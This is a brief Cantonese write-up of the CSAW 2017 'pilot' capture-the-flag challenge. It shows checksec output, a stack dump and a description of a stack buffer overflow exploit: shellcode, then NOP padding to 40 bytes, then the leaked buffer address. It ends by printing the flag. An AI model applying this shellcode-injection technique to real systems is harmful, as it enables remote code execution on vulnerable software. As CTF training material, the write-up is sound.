# CSAW 2017 rev 75 pilot

# 題目:


>                                         pilot
>                                 Can I take your order?
>                                 nc pwn.chal.csaw.io 8464
>                               16:05 Eastern: Updated binary

>[pilot](pilot)

呢題係google題,只要你中一個shellcode, 就get flag

Checksec:

```pyrhon
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
```

IO dump:

```
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7fffffffe070
[*]Command:aaaaaaaaaaa

````


呢題冇開nx, 可以run shellcode,

check 0x7fffffffe070係指去乜地方先


stack dump
```
──────────────────────────────────────── Stack ────────────────────────────────────────
0000| 0x7fffffffe070 ('a' <repeats 11 times>, "\n")
0008| 0x7fffffffe078 --> 0xa616161 ('aaa\n')


```

原來係指去input buffer address -_-

exploit就係:shellcode+padding+input buffer address

padding='\x90'*(40-len(shellcode))

其中40係buffersize+RBP 

作為一個小薯,之後嘅動作當然係上shellstorm 抄shellcode

大概copy and paste 左10條shellcode左右就get shell,亦都係呢條題目嘅難點 =_=

```
flag: flag{1nput_c00rd1nat3s_Strap_y0urse1v3s_1n_b0ys}

```


